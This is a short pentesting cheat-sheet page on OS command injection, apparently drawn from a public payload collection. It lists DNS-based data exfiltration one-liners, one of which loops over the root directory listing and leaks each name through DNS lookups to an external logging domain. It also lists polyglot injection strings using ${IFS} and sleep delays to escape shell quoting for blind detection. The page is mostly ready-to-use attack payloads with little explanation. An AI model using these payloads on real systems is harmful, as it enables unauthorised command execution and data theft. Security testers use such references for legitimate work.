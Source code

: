 ### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

* dnsbin.zhack.ca
* pingb.in

### Polyglot command injection

```
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection" %}

{% embed url="https://portswigger.net/support/using-burp-to-test-for-os-command-injection-vulnerabilities" %}

{% embed url="https://threat.tevora.com/stop-collaborate-and-listen/" %}

